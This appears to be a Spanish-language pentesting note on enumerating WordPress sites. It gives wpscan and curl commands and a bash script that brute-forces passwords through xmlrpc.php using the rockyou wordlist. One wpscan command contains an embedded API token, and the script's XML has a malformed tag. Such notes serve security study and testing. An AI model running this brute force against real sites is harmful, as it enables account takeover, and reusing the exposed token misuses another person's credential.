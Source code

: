 #Web  #CMS #Reconocimiento

#### Definición

> WordPress es un gestor de contenido de código abierto y gratuito que permite a los usuarios crear y gestionar sitios web, blogs y tiendas online de manera sencilla, sin necesidad de conocimientos técnicos avanzados

## ENUMERACION

Podemos usar `whatweb` para poder sacar la máxima información sobre el servicio.
También podemos buscar la versión que encontremos en `searchesplot` o en `exploitdb`

Con [[WPSCAN]] podemos hacer una enumeración mas exhaustiva del WordPress.
- Enumeración General
	`wpscan --url <URL_WordPress>`
- Enumeración Usuarios, Plugins
	`wpscan --url <URL_WordPress> -e u,vp`
- Enumeración con API Token (+Info)
	`wpscan --url <URL_WordPress> --api-token  nTEwvVSSgY0CDaoapYR1CAU0hCSe229fw8aRmBfY1bs`
- Enumeración conociendo usuario
	`wpscan --url <URL_WordPress> -U <User> -P <Wordlist>`

Buscar plugins en el código fuente de forma manual
`curl -s -X GET "<URL_WordPress" | grep -oP 'plugins/\K[^/]+' | sort -u`

SI el archivo `xmlrpc.php` esta expuesto también se pueden enumerar credenciales validas.
Deberemos averiguar cuales son los métodos disponibles tramitando la petición por `POST` deberemos crear un archivo `file.xml` con la siguiente estructura `xml`.
```xml
<?xml version="1.0" encoding="utf-8"?>
<methodCall>
<methodName>system.listMethods</methodName>  <params></params>  </methodCall>
```

Lo tramitamos por `POST` utilizando `curl` de la siguiente forma.
`curl -s -X POST "http://127.0.0.1:31337/xmlrpc.php" -d@file.xml`

Nos devolverá los métodos disponibles de WordPress, deberemos buscar que se encuentre el método `wp.getUsersBlogs`, al existir este método nos podemos montar una estructura en`bash` para realizar el ataque de fuerza bruta..
```bash
#!/bin/bash

function ctrl_c(){
echo "[!] Saliendo..."
exit 1
}

# Ctrl + c
trap ctrl_c SIGINT

function createXML(){
password=$1
xmlFile="""
<?xml version=\"1.0\" encoding=\"UTF-8\"?>
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>USRUARIO_ENECONTRADO/value></param> ------- CAMBIAR USUARIO
<param><value>$password</value></param>
</params>
</methodCall>
"""

echo $xmlFile > file.xml
response=$(curl -s -X POST "<URL_WordPress>/xmlrpc.php" -d@file.xml)
if [ ! "$(echo $response | grep 'Incorrect username or password.')" ]; then
echo -e "\n[+] La contraseña es $password"
exit 0
fi
}

cat /usr/share/wordlists/rockyou.txt | while read password; do
createXML $password
done
```
